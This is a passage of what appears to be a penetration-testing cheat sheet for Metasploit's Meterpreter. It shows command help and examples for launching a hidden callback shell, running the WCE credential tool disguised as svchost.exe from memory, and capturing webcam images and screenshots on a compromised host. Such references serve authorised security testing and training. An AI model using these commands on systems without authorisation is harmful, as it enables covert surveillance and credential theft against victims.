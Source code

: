 ##### 2.1.5.1 - Help Menu

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```

##### 2.1.5.2 - Usage

* **Spawn Callback Shell**

`meterpreter > execute -Hicf shell.exe`

* **Dummy Process**

`meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"`

#### 2.1.6 - WireTap

##### 2.1.6.1 - Webcam

`meterpreter > webcam_list`

`meterpreter > webcam_snap -h`

`meterpreter > webcam_snap -i <device_ID> -p /path/to/file.png`

`meterpreter > webcam_stream -h`

##### 2.1.6.2 - Screenshots

1. **Screenshot**
 
```
meterpreter > screenshot -h
Usage: screenshot [options]

Grab a screenshot of the current interactive desktop.

OPTIONS:

    -h   Help Banner.
    -p   The JPEG image path (Default: 'jevmzGjE.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'false')

meterpreter > screenshot -p /home/user/pic.jpeg -q 100

meterpreter > screenshare -h
Usage: screenshare [options]

View the current interactive desktop in real time.
```
